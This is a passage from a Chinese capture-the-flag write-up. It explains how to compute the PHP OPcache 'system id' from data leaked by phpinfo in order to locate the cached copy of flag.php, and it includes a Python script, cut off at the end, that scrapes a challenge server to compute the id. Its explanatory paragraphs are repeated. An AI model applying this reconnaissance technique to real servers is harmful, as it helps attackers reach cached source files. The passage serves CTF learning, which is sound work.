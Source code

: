 上图这个配置意味着，在`/var/www/cache/`下存在着 `PHP` 的缓存文件，那么自然也会有 `flag.php` 的缓存，会在缓存文件夹内以`/var/www/html/flag.php.bin`存在，而完整的绝对路径是`/var/www/cache/[一个 md5]/ var/www/html/flag.php.bin`

然而这个文件名，也就是这个`MD5`是多少是不知道的。查阅资料可知，这个`md5`被称为` system id`,它的计算算法是固定的，由`php`版本号、`zend extension id`、`Zend Bin ID`，这三样拼接起来`md5`即可，而这`3`种东西正好全都在`phpinfo`里可以拿到，可以使用该脚本一键计算：

上图这个配置意味着，在`/var/www/cache/`下存在着 `PHP` 的缓存文件，那么自然也会有 `flag.php` 的缓存，会在缓存文件夹内以`/var/www/html/flag.php.bin`存在，而完整的绝对路径是`/var/www/cache/[一个 md5]/ var/www/html/flag.php.bin`

然而这个文件名，也就是这个`MD5`是多少是不知道的。查阅资料可知，这个`md5`被称为 `system id`,它的计算算法是固定的，由`php`版本号、`zend extension id`、`Zend Bin ID`，这三样拼接起来`md5`即可，而这`3`种东西正好全都在`phpinfo`里可以拿到，可以使用该脚本一键计算：

```python
import sys
import re
import requests
from md5 import md5
from packaging import version # python2 -m pip install -I packaging==17.0


url = 'http://y1ng.vip:4332/'
phpinfo_url = url + '/?phpinfo'

text = requests.get(phpinfo_url).text
php_version = re.search('<tr><td class="e">PHP Version </td><td class="v">(.*) </td></tr>', text)
if php_version == None:
    php_version = re.search('<h1 class="p">PHP Version (.*)', text)
if php_version == None:
    print "No PHP version found, is this a phpinfo file?"
    exit(0)
php_version = php_version.group(1)
php_greater_74 = (version.parse("7.4.0") < version.parse(php_version.split("-")[0]))
zend_extension_id = re.search('<tr><td class="e">Zend Extension Build </td><td class="v">(.*) </td></tr>', text)
if zend_extension_id == None:
    print "No Zend Extension Build found."
    exit(0)
zend_extension_id = zend_extension_id.group(1)
architecture = re.search('<tr><td class="e">System </td><td class="v">(.*) </td></tr>', text)
if architecture == None:
    print "No System info found."
    exit(0)
architecture = architecture.group(1).split()[-1]
if architecture == "x86_64":
    bin_id_suffix = "48888"
else:
    bin_id_suffix = "44444"
if php_greater_74:
    zend_bin_id = "BIN_" + bin_id_suffix
else:
    zend_bin_id = "BIN_SIZEOF_CHAR" + bin_id_suffix
if not php_greater_74:
    if architecture == "x86_64":
        alt_bin_id_suffix = "148888"
    else:
        alt_bin_id_suffix = "144444"

    alt_zend_bin_id = "BIN_" + alt_bin_id_suffix
print "PHP version : " + php_version
print "Zend Extension ID : " + zend_extension_id
print "Zend Bin ID : " + zend_bin_id
print "Assuming " + architecture + " architecture"
digest = md5(php_version + zend_extension_id + zend_bin_id).hexdigest()
print "------------"
print "System ID : " + digest
if not php_greater_74:
```